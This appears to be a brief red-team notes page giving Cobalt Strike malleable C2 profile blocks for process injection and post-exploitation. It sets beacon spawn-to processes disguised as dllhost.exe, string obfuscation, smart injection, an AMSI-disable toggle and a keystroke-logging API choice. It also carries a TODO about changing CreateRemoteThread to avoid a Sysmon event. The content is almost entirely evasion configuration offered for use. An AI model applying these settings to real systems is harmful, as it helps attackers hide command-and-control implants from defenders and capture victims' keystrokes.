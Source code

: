 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - red-team-infrastructure
  - cobalt-strike
---
```

# 05 - Post Exploitation Code Block

## 5.1 - Process Inject Block

TODO: Change the CreateRemoteThread to something else for bypassing sysmon event ID

```
process-inject {
	set userwx "false";
	
	set startrwx "true";
}
```

## 5.2 - Post Exploitation Block (Evasion)

```
post-ex {
	# Spawn the beacons to default windows EXE binaries.
	set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
	set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
	
	# Obfuscate beacon strings
	set obfuscate "true";

	set smartinject "true";
	
	# Disable AMSI feature. To enable it set it to "false"
    set amsi_disable "false";

	# Set a specific windows function for recording keystrokes (select only one of them)
	# set keylogger "SetWindowsHookEx";
	set keylogger "GetAsyncKeyState";
}
```